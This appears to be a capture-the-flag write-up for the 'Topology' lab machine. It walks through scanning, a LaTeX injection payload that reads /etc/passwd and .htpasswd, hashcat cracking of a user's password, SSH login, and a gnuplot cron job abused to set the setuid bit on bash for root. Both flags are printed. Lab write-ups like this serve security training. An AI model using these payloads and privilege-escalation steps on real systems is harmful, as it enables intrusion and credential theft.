Discover
nmap
sudo nmap -A -sV -sT -v -O -T4 -p- 10.10.11.217
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 dcbc3286e8e8457810bc2b5dbf0f55c6 (RSA)
| 256 d9f339692c6c27f1a92d506ca79f1c33 (ECDSA)
|_ 256 4ca65075d0934f9c4a1b890a7a2708d7 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)nikto
nikto -h http://10.10.11.217/
+ Target IP: 10.10.11.217
+ Target Hostname: 10.10.11.217
+ Target Port: 80
+ Start Time: 2023-10-26 15:18:56 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 1a6f, size: 5f27900124a8b, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cg
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD .
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /images/: Directory indexing found.
+ 8074 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time: 2023-10-26 15:31:35 (GMT2) (759 seconds)nikto -h http://latex.topology.htb -C All
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP: 10.10.11.217
+ Target Hostname: latex.topology.htb
+ Target Port: 80
+ Start Time: 2023-10-26 15:33:34 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /: Directory indexing found.
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: GET, POST, OPTIONS, HEAD .
+ /./: Directory indexing found.
+ /./: Appending '/./' to a directory allows indexing.
+ //: Directory indexing found.
+ //: Apache on Red Hat Linux release 9 reveals the root directory listing by default if there is no index page.
+ /%2e/: Directory indexing found.
+ /%2e/: Weblogic allows source code or directory listing, upgrade to v6.0 SP1 or higher. See: http://www.securityfocus.com/bid/2513
+ ///: Directory indexing found.
+ /?PageServices: The remote server may allow directory listings through Web Publisher by forcing the server to show all files via 'open directory browsing'. Web Publisher should be disabled. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0269
+ /?wp-cs-dump: The remote server may allow directory listings through Web Publisher by forcing the server to show all files via 'open directory browsing'. Web Publisher should be disabled. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-1999-0269
+ /demo/: Directory indexing found.
+ /demo/: This might be interesting.
+ ///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////: Directory indexing found.
+ ///////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////: Abyss 1.03 reveals directory listing when multiple /'s are requested. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1078
+ 8830 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time: 2023-10-26 15:48:58 (GMT2) (924 seconds)web
Weird header (If-None-Match)
If-None-Match: "1a6f-5f27900124a8b-gzip"Directory indexing


check subdomains (WFUZZ)
wfuzz -c -f sub-fighter -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://topology.htb" -H "Host: FUZZ.topology.htb" --hl 174
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000019: 401 14 L 54 W 463 Ch "dev"
000000061: 200 5 L 9 W 108 Ch "stats" dev

stats

LaTeX Injection
- Experiment which payloads are working

- Eventually found a working payload:
$\lstinputlisting{/etc/passwd}$/etc/passwd

/etc/os-release

/var/www/dev/.htaccess

/var/www/dev/.htpasswd

Obtain user
Crack hash
- Identify Hash:
hash-identifier '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0’Possible Hashs: [+] MD5(APR)hashes.comPossible algorithms: Apache $apr1$ MD5, md5apr1, MD5 (APR) - hashcat
hashcat -m 1600 '$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' /usr/share/wordlists/rockyou.txt→ vdaisley:calculus20
Check access
- http://dev.topology.htb

- The user vdaisly is also in the /etc/passwd file, so we can try SSH → Works
ssh vdaisley@10.10.11.217
vdaisley@10.10.11.217's password: calculus20Found flag → d71411b4bb3ba986248dc16395180482
Priv escalation
Linpeas
Exploit suggestions
[+] [CVE-2022-2586] nft_object UAF
Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
Exposure: probable
Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
[+] [CVE-2021-4034] PwnKit
Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
Exposure: probable
Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
[+] [CVE-2021-3156] sudo Baron Samedit
Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
Exposure: probable
Tags: mint=19,[ ubuntu=18|20 ], debian=10
Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
[+] [CVE-2021-3156] sudo Baron Samedit 2
Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
Exposure: probable
Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
Exposure: probable
Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
Comments: ip_tables kernel module must be loaded
[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
Exposure: less probable
Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
[+] [CVE-2017-5618] setuid screen v4.5.0 LPE
Details: https://seclists.org/oss-sec/2017/q1/184
Exposure: less probable
Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154Processes with credentials in memory
╔══════════╣ Processes with credentials in memory (root req)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#credentials-from-process-memory
gdm-password Not Found
gnome-keyring-daemon Not Found
lightdm Not Found
vsftpd Not Found
apache2 process found (dump creds from memory as root)
sshd: process found (dump creds from memory as root)htpasswd files
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 root root 47 Jan 11 2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/authz_owner/.htpasswd
username:$apr1$1f5oQUl4$21lLXSN7xQOPtNsj5s4Nk/
-rw-r--r-- 1 root root 47 Jan 11 2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/basic/file/.htpasswd
username:$apr1$uUMsOjCQ$.BzXClI/B/vZKddgIAJCR.
-rw-r--r-- 1 root root 117 Jan 11 2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_anon/.htpasswd
username:digest anon:25e4077a9344ceb1a88f2a62c9fb60d8
05bbb04
anonymous:digest anon:faa4e5870970cf935bb9674776e6b26a
-rw-r--r-- 1 root root 62 Jan 11 2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 11 2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_time/.htpasswd
username:digest private area:fad48d3a7c63f61b5b3567a4105bbb04
-rw-r--r-- 1 root root 62 Jan 11 2020 /usr/lib/python3/dist-packages/fail2ban/tests/files/config/apache-auth/digest_wrongrelm/.htpasswd
username:wrongrelm:99cd340e1283c6d0ab34734bd47bdc30
4105bbb04
-rw-r--r-- 1 www-data www-data 47 Jan 17 2023 /var/www/dev/.htpasswd
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0sqlite db files
╔══════════╣ Searching tables inside readable .db/.sql/.sqlite files (limit 100)
Found /var/lib/command-not-found/commands.db: SQLite 3.x database, last written using SQLite version 3031001
Found /var/lib/fail2ban/fail2ban.sqlite3: regular file, no read permission
Found /var/lib/fwupd/pending.db: SQLite 3.x database, last written using SQLite version 3031001
Found /var/lib/PackageKit/transactions.db: SQLite 3.x database, last written using SQLite version 3031001pspy
Gnuplot Privilege Escalation | Exploit Notes - gnuplot is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.
2023/10/26 11:24:01 CMD: UID=0 PID=37575 | /bin/sh -c find "/opt/gnuplot" -name "*.plt" -exec gnuplot {} \;
2023/10/26 11:24:01 CMD: UID=0 PID=37567 | /bin/sh /opt/gnuplot/getdata.sh
Add .plt script:
echo "system 'chmod u+s /bin/bash'" > /opt/gnuplot/hacked.plt
vdaisley@topology:/opt$ /bin/bash -p
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cd /root
bash-5.0# ls
root.txt
bash-5.0# cat root.txt
a70cb2b6657322c749fb097fb9110c2c
bash-5.0# whoami
root
bash-5.0#Found root flag → a70cb2b6657322c749fb097fb9110c2c